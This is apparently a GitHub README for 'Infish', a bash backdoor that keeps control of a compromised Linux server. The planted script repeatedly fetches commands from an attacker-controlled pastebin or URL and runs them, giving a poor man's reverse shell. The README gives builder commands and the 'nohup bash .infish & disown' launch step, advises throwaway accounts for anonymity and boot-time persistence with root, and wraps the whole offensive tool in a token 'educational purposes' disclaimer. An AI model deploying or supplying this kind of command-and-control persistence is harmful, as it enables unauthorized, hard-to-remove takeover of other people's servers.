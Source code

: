 # Infish

Infish stands for infinite shell. It's a way to maintain persistent shell access on a linux server even without ftp, ssh, or cpanel access. It works on all linux servers, even on shared hosting.

Note that this project is for **educational purposes** only. I bear no responsibility for how you use it. For this reason, no specific tutorial will be given for how exactly when or where to use this tool.

The aim of this shell is the give the penetration tester maximum and complete control over the system such that **even reboot** can not save the day. Infact if one has root access, one can set the script to run on boot, that way, the target is **screwed**.

# How it works
Here, you will have a shell that keeps checking on a paste on a predefined url or pastebin (use a throw away account and make the paste unlisted), and running whatever command it finds there. That way, you don't need access to the target machine. You've created a poor man's reverse shell, while remaining anonymous in the process.

Anytime you need to run a command, simply edit the paste to the command you want.

# Usage

There are two ways to build the final product.

- Using a raw paste url
- Using your pastebin dev api key, username, and password


## Using a raw url

This is when you already have a webpage or have already created a paste by hand. Get the **raw paste url** or the url or the page and run the following command

```bash
bash infish-builder url pastebin.com/raw/abc123
```

```bash
bash infish-builder url somesite.com/cmdpage
```
**You can also use this is you have a url you host on the internet**.

## Using your pastebin details

This is the recommended method, as everything is automated. For this, obtain the following

- Your pastebin dev api key
- Your pastebin username (To our throwaway account)
- Your pastebin password

Then run the following

```bash
>bash infish-builder key xxxxxxxxxxxxxxxxxxxxxxx
Pastebin username:
john
Pastebin password:
doe
New paste name:
shell

Successfully built infinite shell

```

A file called '.infish' is created.

Finally on the server, run

```bash
nohup bash .infish & disown
```

Now, you can edit your paste to any shell command and the server will run it.

That's it, you own the server. If you have root access, you can set the last command to run on boot.

If you're confused or have no idea what's going on on this page, then you should not be here. Go build cute websites and apps.




Stay Dangerous :)
